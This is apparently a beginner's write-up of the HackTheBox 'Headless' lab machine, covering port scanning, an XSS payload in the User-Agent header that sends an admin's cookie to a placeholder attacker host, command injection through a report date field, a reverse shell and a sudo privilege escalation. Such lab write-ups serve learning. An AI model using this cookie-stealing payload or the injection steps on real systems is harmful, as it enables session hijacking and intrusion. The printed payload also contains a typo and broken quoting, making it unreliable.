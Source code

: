 # HackTheBox Headless Easy Machine Write Up
<div align="center">
  <img src=https://github.com/user-attachments/assets/2ffbf2f2-5397-44d4-840a-3040409e956c>
</div>

## Machine Description

Headless is a retired easy machine from HackTheBox. This machine is good to learn cookie stealing using XSS and gain root privilege using allowed sudo file. To be honest, when I'm solving this, I followed a walkthrough on Youtube from PinkDraconian channel because I am a newbie and I am not familiar with XSS. If you want to check out his youtube, here is the link [https://www.youtube.com/watch?v=JT4bYzMUDMs](PinkDraconian).
Okay, let's start!.

## Enumartion and Reconnaissance

Like always in penetration testing, we need to do enumaration and recon first. I did Port scanning with `nmap` and directory enumaration with `gobuster`.

<br/><br/>

### Port Scanning with Nmap

Payload:

    nmap <MACHINE_IP> -p- -sC -T5 -O -oN nmap1.txt

<br/><br/>


<div align="center">
  <img src=https://github.com/user-attachments/assets/ca563449-3797-43af-9ef5-d6f05bcb18ca>
<br/><br/>
</div>

<div align="center">
  **Nmap Output**
</div>

From the nmap output, I got a few ports but only 2 that are open, **ssh** on port 22 and **upnp** on port 5000. Next, I tried to see if there's a web page for upnp on port 5000. So, i enter it on my web browser. Turns out, it did has a web page.
<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/06fc25d0-94fd-4e77-a111-5db7dc02c189>
<br/><br/>
</div>

<div align="center">
  **UPNP web page**
</div>

It says that we can send a question so I clicked on that button and redirected to another page in `/support`.
<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/ab9307cd-11d1-42f5-ab9d-72220f6cda10>
<br/><br/>
</div>

<div align="center">
 **/support page**
</div>
<br/><br/>

This could be vulnerable to XSS attack.

<br/><br/>

### Directory Enumeration with GoBuster

After find out that the port 5000 has a web page and a `/support` directory, I tried to look for another directory that might be available.

<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/a134a427-97a1-4153-b81c-4c8f4b84c2d2>
</div>

<br/><br/>

<div align="center">
  **Gobuster output**
</div>

<br/><br/>

From `gobuster` output, I got two directory, one is the `/supoort` directory and another one is `/dashboard` but it only allowed authorized user.


## Exploitation

### Cookie Stealing with XSS attack

So, after finding another directory, I inspected the web on `/support` and check on storage and found this web use `is_admin` cookie. When I checked it, it says mine is user so i need to find admin's cookie and change it into my browser.

So, next thing I did was trying to submit a question but on the message, I filled it with XSS payload.

First XSS payload:

    <script>alert()</script>

But, the web knew that it was XSS and report it.

So, by following **PinkDraconian** on Youtube, he changed the `User Agent` from Mozilla (web browser agent that he used) into XSS payload. The XSS payload that he used was something that when an admin see the malicious post, it will give an error and automatically write a document with image tag and source to attacker's server and send the admin's cookie to attacker (something like that, you can see his explanation it's very good and clear).

Following him with the payload, I used the same payload as him.

Payload:

    <img src=x onerror='dociument.write("<img src=http://<YOUR_IP:<YOUR_PORT>/Cookies + "document.cookie + ">")'

I changed my User Agent with the payload and the message with previous alert() payload. I wait for a few seconds and got the admin's is_admin cookie.

<br/><br/>

<div align="center">
  <img src=https://github.com/user-attachments/assets/337dadc2-369a-4450-b86a-095185c3db86>
</div>
<br/><br/>

<div align="center">**admin's cookie**</div>
<br/><br/>

Next, I changed my cookie into admin's cookie and enter the /dashboard directory successfully redirected into administrator dashboard.

<div align="center">
  <img src=https://github.com/user-attachments/assets/72b7e3d9-b66a-4c1d-9f7f-537dfbec1dc6>
</div>
<br/><br/>

<div align="center">
  **Administrator Dashboard**
</div>

In the administrator dashboard, we can generate report with a date. So, I looked up with `Burpsuite` to see what is the payload that were sent to the server. Turns out it was just date. By following **PinkDraconian**, I found out that we can try command injection by adding command after the date, `date;<yourcommand>`.

So, I tried with `ls` command to see can I see files in this directory.

<div align="center">
  <img src=https://github.com/user-attachments/assets/339cf741-8977-42a2-8358-108580212add>
</div>
<br/><br/>

After found out that I can use command to see the files, I used reverse shell payload. I used a python shortest payload and make it URL encoded from [https://revshells.com](revshells) following the walkthrough.

Turn on listener with netcat and send it, I got the shell.

<div align="center">
  <img src=https://github.com/user-attachments/assets/fbce13bf-8bce-4caf-ae49-afc91e10ac62>
</div>
<br/><br/>

Because I already a user not www-data, I can open the user.txt

### Privilege Escelation

To do privilege escelation, I ran `sudo -l` to see if user **dvir** allowed to sudo something, and it did.

<div align="center">
  <img src=https://github.com/user-attachments/assets/1808e5b9-c062-45b4-a9f3-bdd462f7a55a>
</div>
<br/><br/>

User dvir is allowed to run `/usr/bin/syscheck`. When I open the file wiith `cat`, It says that if we run this file, it will run .sh file, which in this case is `./initdb.sh`.

<div align="center">
  <img src=https://github.com/user-attachments/assets/8fdfe1d8-9219-4a29-9625-3d0637a26185>
</div>
<br/><br/>

Next, I overwite that file into `bash`, so when it's run by me, it will run bash and grant us to root.

![Screenshot 2024-11-03 110037](https://github.com/user-attachments/assets/261cfe30-2322-42dc-a8b0-a45f207f60e7)
<br/><br/>

After overwriting, I ran it and got root access and read the root.txt

![Screenshot 2024-11-03 110127](https://github.com/user-attachments/assets/ebbaefa8-c998-4157-9230-f6ddbf45ed95)


Okay, that's all. Thank you for [https://www.youtube.com/watch?v=JT4bYzMUDMs](PinkDraconian) for the walkthrough, you guys can check out his video its very thorough and easy to understand. Thank you for reading!


